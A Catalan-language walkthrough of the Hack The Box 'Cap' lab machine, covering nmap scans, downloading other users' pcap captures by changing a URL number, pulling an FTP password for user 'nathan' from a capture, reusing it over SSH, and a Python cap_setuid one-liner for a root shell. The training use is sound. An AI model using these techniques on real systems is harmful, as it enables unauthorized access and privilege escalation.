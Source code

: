 <p align="center">
  <img src="https://github.com/user-attachments/assets/9d0f2f9d-818d-42ae-9dd0-02cf12aeeba0" alt="cap-htb-header" width="700" height="500">
</p>

## NMAP scanning
Escaneig a través d'enviament de paquets TCP SYN a tots els ports del host per detectar quins estan oberts.
````bash
❯ nmap -p- --open -sS -v -n --min-rate=5000 -Pn -n 10.10.10.245

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
           Raw packets sent: 72198 (3.177MB) | Rcvd: 72198 (2.888MB)
````
Amb els ports resultants de l'escaneig anterior, enumerar la versió i llençar els scripts per defecte de NMAP.
````bash
❯ nmap -sCV -p21,22,80 -Pn 10.10.10.245

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.05 seconds
                                                                            
````
Buscant la versió de SSH al launchpad d'Ubuntu ja es pot extreure que, segurament, el host té un Ubuntu Focal.

## Web enumeration
Un dels apartats de la web realitza un seguiment del tràfic de la xarxa durant 5 segons i l'exporta en un arxiu .pcap per poder analitzar-lo amb WireShark. Mirant la forma que té l'URL, _/data/[nº], es pot provar si altres números corresponen a algun arxiu .pcap d'un seguiment anterior de la xarxa.

![image](https://github.com/user-attachments/assets/ffdfe307-69b7-459a-aedb-d0c9141b534c)

Hi tenim accés, i podem descarregar tots els arxius per obrir-los amb WireShark i analitzar-los.

## User
El primer arxiu, _0.pcap_, ha capturat una sèrie de connexions fetes pel protocol FTP, entre les quals es troba l'autenticació d'un usuari anomenat _nathan_ amb la contrasenya _Buck3tH4TF0RM3!_.

![image](https://github.com/user-attachments/assets/9f11edef-f0f4-40ca-8dd6-acbba2c07f45)

Si provem les credencials al servidor FTP podem accedir-hi, i podem veure el que sembla el directori _home_ de l'usuari _nathan_. De la mateixa manera, si ens autentiquem mitjançant SSH amb les mateixes credencials, podem aconseguir una consola interactiva com aquest usuari, ja que les credencials es reutilitzen. 

![image](https://github.com/user-attachments/assets/432fb5fc-a3b0-4fd0-be71-4098c40999b4)

## Privilege escalation
Llistant les _capabilities_ del host, podem veure que Python3.8 té assignat _cap_setuid_, pel que es pot utilitzar aquest binari per a manipular el UID d'un procés i, doncs, pot fer-se servir per tenir una consola amb UID 0 (root).
````bash
> getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
````
````python
>>> import os; os.setuid(0); os.system("/bin/bash")
````
![image](https://github.com/user-attachments/assets/62020c74-b114-46e5-bc2f-9177f49a34a8)
